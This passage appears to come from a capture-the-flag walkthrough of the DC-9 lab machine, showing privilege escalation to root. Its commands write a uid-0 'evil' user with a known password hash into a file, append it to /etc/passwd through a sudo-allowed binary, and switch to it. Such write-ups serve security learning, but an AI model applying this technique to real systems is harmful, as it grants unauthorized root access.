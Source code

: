 ```bash

```

We will exploit this by appending a new user to _/etc/passwd_

First we create the file that will be read in by _test.py_ in /var/tmp

The following will add a root user with the password _i<3hacking_

```bash
fredf@dc-9:/var/tmp$ echo 'evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash' > /var/tmp/evil


fredf@dc-9:/var/tmp$ cat evil
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

Now we can execute the _/opt/devstuff/dist/test/test_ and read in the _/var/tmp/kamino_ and append to the file _/etc/passwd_

```bash
redf@dc-9:/var/tmp$ sudo /opt/devstuff/dist/test/test /var/tmp/evil /etc/passwd

redf@dc-9:/var/tmp$ cat /etc/passwd

# we see our newly created root user "evil" at the bottom of /etc/passwd
scoots:x:1015:1015:Scooter McScoots:/home/scoots:/bin/bash
janitor:x:1016:1016:Donald Trump:/home/janitor:/bin/bash
janitor2:x:1017:1017:Scott Morrison:/home/janitor2:/bin/bash
evil:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:evil:/home/evil:/bin/bash

```

Our exploit was successful and now we can switch to the _kamino_ user and have root privileges.

```bash
fredf@dc-9:/var/tmp$ su evil
Password:
root@dc-9:/var/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```
